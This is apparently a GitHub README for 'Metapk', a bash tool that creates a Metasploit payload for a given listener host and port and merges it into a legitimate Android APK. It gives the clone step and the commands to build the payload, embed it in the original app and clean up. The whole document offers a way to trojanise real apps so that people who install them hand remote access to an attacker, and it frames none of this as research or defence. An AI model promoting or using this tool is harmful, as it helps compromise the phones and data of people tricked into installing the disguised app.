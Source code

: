 # Metapk
Merge Metasploit Payload And Legit Apk With Ease

## Let's Dive In
Clone The Repository To Your Machine

In Case You Don't Know How To Do That, Here's The Command,

```
git clone 
```

### Dependencies
A Pc With Bash Shell ( Most Suitably Linux)
A Chunk Of Processing Power From Your Brain

## Usage
To Create A Payload Only;
```
./metapk -c <lhost> <lport>
```

To Merge Payload And Original Apk;
```
./metapk -e <original apk> <payload>
```
CleanUp The Present Working Directory;
```
./metapk --clean
```

#### Note: For Best Results, Copy Original Apk And Payload Into Metapk Directory.
